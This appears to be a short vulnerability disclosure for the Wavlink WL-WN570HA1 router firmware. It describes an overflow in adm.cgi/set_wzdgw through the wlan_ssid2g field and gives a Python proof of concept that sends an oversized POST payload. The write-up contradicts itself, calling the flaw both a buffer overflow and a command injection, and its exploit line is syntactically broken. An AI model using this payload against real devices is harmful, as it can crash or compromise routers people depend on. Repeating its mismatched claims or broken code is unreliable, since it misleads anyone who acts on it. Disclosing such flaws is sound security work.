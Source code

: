 # buff overflow

## WAVLINK_WL_WN570HA1

version: 20220621

## Description:

There is a command injection in adm.cgi/set_wzdgw

## Source:

you may download it from : https://www.wavlink.com/en_us/firmware/details/762dc36209.html

## Analyse:


![](5.png)

get value from wlan_ssid2g

![](4.png)

and we can set TouchLinkEn in wireless.cgi

if TouchLinkEn was set, call sprintf, cause buff overflow

## POC
```
url = "http://192.168.0.1/cgi-bin/adm.cgi"
payload = 'a'*0x1000 + '\n'

r = requests.post(url, data={ 'page':'wzdgw', 'wlan_ssid2g': + payload})
``` 
